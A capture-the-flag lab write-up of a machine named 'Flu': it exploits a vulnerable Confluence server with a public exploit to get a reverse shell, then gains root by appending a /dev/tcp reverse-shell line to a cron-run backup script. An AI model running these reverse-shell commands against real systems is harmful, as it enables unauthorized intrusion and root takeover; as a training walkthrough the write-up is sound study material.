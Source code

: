 # Flu

so i start off with a nmap scan to discover open ports:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

The first web page:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see the version number of the confluence software so we can look for public exploits:

{% embed url="https://github.com/jbaines-r7/through_the_wire" %}

And we catch a shell just like that:

```
python3 through_the_wire.py --rhost 192.168.59.41 --rport 8090 --lhost 192.168.49.59 --lport 1234 --protocol http:// --reverse-shell
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i run linpeas and see that there is something going on in the dir /opt/atlassian/confluance/logs/

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i go and see all those files:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

nothing interesting unfortunatly i went through all those logs and did not grep on any interesting stuff so i back out of this dir one by one and end up in /opt:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the log-backup.sh file seems interesting:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i see this script creates backups and stores them in a root folder so i try to write a reverse shell into it:

```
echo 'sh -i >& /dev/tcp/192.168.49.59/9876 0>&1' >> log-backup.sh
```

and very wierdly i get a shell as root on my listener?

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so there must be a cron running on this file and i was very lucky so i need to be sure by running pspy to look at root to snoop on processes without need for root permissions. It allows to see commands run by other users, cron jobs, etc

so i install pspy in /tmp of my shell with the following:

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

and run it to find UID=0:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* A script named **`/opt/log-backup.sh`** was run, likely as part of a scheduled task or system process.
* The initial execution (`/bin/sh -c ...`) suggests it may have been triggered by a **cron job**, systemd service, or another script.
* The script itself was executed using **`/bin/bash`**, meaning it contains commands that require Bash rather than the default `sh`.
